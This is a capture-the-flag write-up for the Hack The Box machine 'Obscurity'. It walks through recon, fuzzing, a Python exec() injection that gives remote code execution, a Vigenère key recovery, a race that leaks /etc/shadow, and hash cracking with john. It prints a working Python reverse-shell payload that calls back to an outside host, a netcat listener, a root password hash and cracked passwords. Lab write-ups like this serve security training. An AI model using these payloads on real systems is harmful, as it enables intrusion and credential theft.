

Obscurity was a fun box to hack because it is CTF styled with lot of python code. As the name implies the author hid the vulnerabilities in plain sight. The first step towards “owning” any box is to do some reconnaissance (recon) with NMAP. This recon yielded 4 ports 2 of which are open. Ports 22 and 8080.

```
nmap -v -sV -sC -oA nmap/safe -Pn 10.10.10.168
Nmap scan report for 10.10.10.168
Host is up (0.19s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
|
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
```

Web servers are usually riddled with vulnerabilities, hence port 8080 is a good first choice to enumerate and also continue recon.

The tool gobuster can be used for enumerating the web server to find interesting endpoints; this yielded nothing. Reading through the content of the page that is hosted at port 8080, there is a message that states the filename of the web server (SuperSecureServer.py) and also implies that this file is publicly hosted in a “secret” directory.



From the message on the site, the goal now is to fuzz the directory that might contain the file SuperSecureServer.py. The tool wfuzz can be leveraged for this.

`wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt http://10.10.10.168:8080/FUZZ/SuperSecureServer.py`

Once completed, we can find the file at http://10.10.10.168:8000/develop/SuperSecureServer.py . The contents of this file reveals the inner working of the web server and how it can be exploited to perform a Remote Code Execution (RCE).

View Source Code for [SuperSecureSever.py](https://gist.github.com/bascoe10/27fa856e886b6d09e80d5d580ed80e75)

In Line 139, there is an invocation of the method exec() with the path that is passed via the HTTP request. The exec() method executes dynamically created python program. If we pass a valid python program as the HTTP path, it will get executed by exec().

```
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
```

From the above snippet, the variable info will contain an extrapolated string that contains the URL path. After the extrapolation the string will take the form:

```
"output = 'Document: <path>'"
e.g "output = 'Document: /test/path'"
```

This string is a valid python program; a variable assignment. When this string is passed through exec(), it will create a variable name output which will have the a string value `Document: <path>`.

At this point the goal is to pass a python script as the URL path that will initiate a reverse shell. For this we can leverage the python reverse shell from [HackTricks](https://book.hacktricks.xyz/shells/shells/linux#python). The imports in this script are redundant as they have already been imported in script and hence can be removed. The final python payload will now be:

`';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.26",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

The single quotes are round this string are required to match the quotes of the string they will be extrapolated with.

With the help of Burpsuite, we can intercept a request to the server and then replace the path with the payload above. This payload assume that there is tcp listener on 1337 for the reverse shell. My goto is netcat.

`nc -lvnp 1337`

Once the reverse shell is established, we have an initial foothold in the box as user www-data. With this initial foothold, we can then start enumerating from within the box. This box only contains one user; robert.

We can list the content of Robert’s home directory, but cannot read the user flag file.

```
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 BetterSSH
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
-rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4  2019 passwordreminder.txt
-rwxrwxr-x 1 robert robert 2514 Oct  4  2019 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25  2019 user.txt
```

SuperSecureCrypt.py is a python implementation of Vigenère cipher.

View Source Code for [SuperSecureCrypt.py](https://gist.github.com/bascoe10/4e76d772f761a874b089c28ec112120d)

The key for a Vigenère cipher can be extracted if a plaintext, ciphertext pair is available. Here is why that is possible:

```
M := Plain text message
C := Cipher text
K := Encryption key
** 255 is the number of characters in the message alphabet (ascii)Encryption process:
C = (M + K) mod 255Decryption process:
M = (C - K) mod 255Key retrieval:
K = (C - M) mod 255
```

Looking at the content of check.txt we can see that it is the plaintext equivalent of out.txt. We can use this pair to extract the key. For this I created a simple python script:

View code [here](https://gist.github.com/bascoe10/45422021877e4e53d0dd9065af9653a3)

The output of this script is “alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichal”. If the message is longer than the key, the key will be repeated. Therefore in this case the key is “alexandrovich”.

The content of the file passwordreminder.txt is encrypted and hence need to be decrypted with SuperSecureCrypt.py using the recovered key.

```
python3 SuperSecureCrypt.py -d -i passwordreminder.txt -o /tmp/dcpt -k alexandrovich
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
############################
#        FILE MODE         #
############################
Opening file passwordreminder.txt...
Decrypting...
Writing to /tmp/dcpt...
www-data@obscure:/home/robert$ cat /tmp/dcpt
SecThruObsFTW
```

The output is a password that we can use to login as the user robert. This can be done via ssh or su.

```
www-data@obscure:/home/robert$ su robert
su robert
Password: SecThruObsFTW

robert@obscure:~$ cat user.txt
e4493782066b55fe2755708736ada2d7
```

The next step from here is to pivot to the root account. First we can check what executable our current user (robert) can execute with sudo privileges without a password

```
robert@obscure:~$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/binUser robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

We can view the file /home/robert/BetterSSH/BetterSSH.py to find ways of exploiting it.

View source code for [BetterSSH.py](https://gist.github.com/bascoe10/6c4ed31f65b3364687cc9bf8a24ce3eb)

BetterSSH.py reads the contents of etc/shadow and writes it to a random file in /tmp/SSH/. My approach to exploiting this was to have a shell script that periodically dumps the content of all files in /tmp/SSH/. This being the case when BetterSSH.py is executed, it would leak the content of etc/shadow which would be capture by the running shell script.

```
==========
TERMINAL 1
==========

robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
robert
Enter password: SecThruObsFTW
SecThruObsFTW
Authed!

==========
TERMINAL 2
==========
while [ 0 -lt 10 ]; do cat /tmp/SSH/*; sleep 0.2; done
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7
```

With this hash for the root account, we can proceed to crack it and then use the result to login as root. (The hash is stored in pass.txt)

```
john --wordlist=rockyou.txt pass.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (?)
1g 0:00:00:00 DONE (2020-04-21 01:38) 1.234g/s 632.0p/s 632.0c/s 632.0C/s angelo..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

With this password at hand we can not login as the root user and get the root flag.

```
robert@obscure:~$ su root
su root
Password: mercedesroot@obscure:/home/robert# cat /root/root.txt
cat /root/root.txt
512fd4429f33a113a44d5acde23609e3
```
